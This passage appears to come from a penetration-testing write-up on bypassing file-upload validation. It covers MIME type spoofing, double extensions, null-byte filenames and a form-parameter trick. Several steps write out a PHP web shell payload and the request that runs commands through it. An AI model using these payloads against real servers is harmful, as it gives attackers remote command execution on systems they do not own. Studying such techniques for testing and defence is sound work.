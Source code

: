 #### Method 2: MIME Type Spoofing
1. Upload a PHP file but set its content type to an allowed image type:
   ```
   # Modify Content-Type in the request
   Content-Type: image/png
   
   # File: shell.php with content:
   <?php system($_GET['cmd']); ?>
   ```
2. The server trusts the Content-Type header without properly validating file contents

#### Method 3: Double Extension Bypass
1. Use multiple extensions where the server only checks the last one:
   ```
   # File: shell.php.png with content:
   <?php system($_GET['cmd']); ?>
   ```
2. The server sees it as a PNG file, but if the server is misconfigured, it might execute it as PHP

#### Method 4: Null Byte Injection
1. Use null byte character to truncate the filename when processed:
   ```
   # File: shell.php%00.png with content:
   <?php system($_GET['cmd']); ?>
   ```
2. Some systems might process this as shell.php, ignoring everything after the null byte

#### Method 5: Form Parameter Bypass
1. Add an explicit parameter to bypass validation:
   ```
   # Add this to your form data:
   allowFile: true
   
   # Then upload your shell.php file
   ```
2. This tricks the server into accepting the file regardless of its type

### Accessing the shell
1. If you used path traversal to the public directory, access:
   ```
   GET /shell.php?cmd=whoami
   ```
2. For files in other directories, you may need to chain this with other vulnerabilities like SSRF to execute the uploaded code

### Pentester Discovery Techniques
1. **Content-Type Fuzzing**: Test different MIME types with the same file
2. **Extension Fuzzing**: Try various file extensions and combinations
3. **Parameter Discovery**: Test common parameters like `allow`, `bypass`, `debug`
4. **Error Analysis**: Look for verbose error messages that reveal accepted formats
5. **Incremental Testing**: Start with legitimate files, then gradually introduce malicious content
6. **Response Differential**: Compare responses between valid and invalid uploads to identify validation patterns
